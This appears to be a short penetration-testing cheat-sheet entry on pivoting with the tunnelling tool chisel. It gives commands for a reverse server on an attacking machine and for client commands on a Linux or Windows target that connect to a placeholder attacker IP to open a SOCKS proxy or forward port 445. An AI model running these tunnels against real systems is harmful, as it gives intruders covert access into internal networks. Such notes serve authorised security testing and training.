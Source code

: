 On the attacking machine run:

```bash
./chisel server -p 8002 --reverse
```

On target run:

Linux:
```bash
./chisel client <attacker_IP>:8002 R:1080:socks
```

Windows:
```bash
chisel.exe client <attacker_IP>:8002 R:1080:socks
```

Example of port forwarding single port:

```bash
.\chisel.exe client <attacker_IP>:8002 R:445:127.0.0.1:445
```
